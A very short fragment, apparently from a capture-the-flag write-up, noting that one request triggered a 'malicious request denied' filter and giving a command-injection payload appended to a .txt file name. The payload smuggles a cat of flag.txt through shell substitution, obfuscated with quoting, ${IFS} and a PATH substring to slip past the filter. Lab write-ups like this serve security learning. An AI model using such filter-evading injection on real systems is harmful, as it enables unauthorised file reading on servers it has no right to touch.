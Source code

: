 I tested each request, and found one that would display "malicious request denied"

Add after the .txt file:
```
$(c'a't${IFS}${PATH:0:1}flag.txt)
```
